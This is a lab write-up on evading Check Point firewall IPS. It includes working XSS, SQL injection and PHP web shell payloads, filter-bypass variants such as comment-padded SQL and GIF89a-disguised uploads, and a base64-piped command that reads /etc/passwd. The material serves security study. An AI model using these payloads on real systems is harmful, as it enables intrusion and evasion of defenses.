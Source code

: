 ```yaml
---
title: Bypass IPS in Check Point Firewall
tags: [IPS, Check point Firewall]
style: border
color: primary
description: Bypass IPS in Check Point Firewall
---
```

### What is **Intrusion Prevention System (IPS)**

Intrusion Prevention Systems detect or prevent attempts to exploit weaknesses in vulnerable systems or applications, protecting you in the race to exploit the latest breaking threat. Check Point IPS protections in our Next Generation Firewall are updated automatically. Whether the vulnerability was released years ago, or a few minutes ago, your organization is protected.[[source](https://www.checkpoint.com/quantum/intrusion-prevention-system-ips/)]

In simple words IPS try to detect and prevent any attempts to exploit your system or your application.

In this lab I will try to bypass IPS blade.

### Lab Requirements

1. kali Linux as attacker
2. metsploitable2 as vulnerable machine
3. Check Point Firewall R80.40

## Without IPS Blade

lets start without enabling the IPs blade and see what we can attack and exploit.

![1](../assets/img/bypassIPS/1.png)

From Kali Linux let’s perform some common attacks like XSS, SQLi, and upload files.

#### - Reflected XSS

simple payload

```jsx
<script>alert('CyberY')</script>
```

![2](../assets/img/bypassIPS/2.png)

As we can see payload successfully executed.

#### - SQL Injection

simple payload

```sql
1' or 1--
```

![3](../assets/img/bypassIPS/3.png)

we can retrieve all the users simply.

#### - File Upload

lets upload simple backdoor

```php                          
<!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>

Usage: http://target.com/simple-backdoor.php?cmd=cat+/etc/passwd

<!--    http://michaeldaw.org   2006    -->
```

![4](../assets/img/bypassIPS/4.png)

![5](../assets/img/bypassIPS/5.png)

got a remote code execution.

![6](../assets/img/bypassIPS/6.png)

## Enable IPS Blade

1. In check point firewall double click on the firewall name.
2. In Threat Prevention select IPS.
3. Click OK.

![7](../assets/img/bypassIPS/7.png)

you should see IPS blade enabled.

![8](../assets/img/bypassIPS/8.png)

1. Click on Security Policies in the left side.
2. Under Threat Prevention select Policy.
3. Right click under Action and select Strict.

![9](../assets/img/bypassIPS/9.png)

7.Publish and install the policies.

Lets try to exploit and see the behavior.

## Exploitation

#### - XSS reflected

with same payload failed.

![10](../assets/img/bypassIPS/10.png)

#### - SQL Injection

with same payload failed.

![11](../assets/img/bypassIPS/11.png)

#### - File Upload

failed.

![12](../assets/img/bypassIPS/12.png)

##### This meaning the IPS working great.

Check the logs in the firewall.

![13](../assets/img/bypassIPS/13.png)

you can double click and see the details 

![14](../assets/img/bypassIPS/14.png)

## Bypass IPS in Check Point Firewall

After we see the behavior of the IPS lets bypass it.

to bypass it we have to know how IPS identification works for this I suggest to watch this [![Video]()](https://www.youtube.com/watch?v=hEgWPWIuq_s&ab_channel=ProfessorMesser "Network Intrusion Detection and Prevention"){:target="_blank" rel="noopener"}.

Now we are ready to go, to make this easy we can take help from [PayloadALLThings](https://github.com/swisskyrepo/PayloadsAllTheThings){:target="_blank" rel="noopener"} in github.

#### - XSS reflected

The only obstacle to bypass the IPS is to find action upon the
error. alert(), prompt(), confirm(), and eval() were all blocked, so we would have to look for other alternatives to create a proof of concept to show the existence of cross-site scripting vulnerabilities.

```jsx
1'"><img/src/onerror=.1|alert`CyberY`>
```

By this payload we are able to bypass IPS and preform reflected XSS.

![15](../assets/img/bypassIPS/15.png)

#### - SQL Injection

After long search I bypass it by replacing the space with **/*! */** as following payload [[source](https://cobalt.io/blog/a-pentesters-guide-to-sql-injection-sqli)]

```sql
1'/*! */or/*! */'1/*! */--/*! */
```

![16](../assets/img/bypassIPS/16.png)

#### - File Upload

After some attempts I got to know that the IPS check the content type, to bypass this we can put **GIF89a;** header.

The payload is 

```php
GIF89a;
<?
system($_GET['cmd']); # shellcode goes here
?>
```

Uploaded with php extension means the IPS never check the extension of the file. 

![17](../assets/img/bypassIPS/17.png)

navigate to the url, then type ?cmd=whoami

![18](../assets/img/bypassIPS/18.png)

another interesting thing that IPS block me from doing cat /etc/passwd

To bypass it I encoded the command as following

```bash
echo Y2F0IC9ldGMvcGFzc3dkCg== | base64 -d | bash
```

and here we go 😀

### Thanks for reading, hope you enjoyed.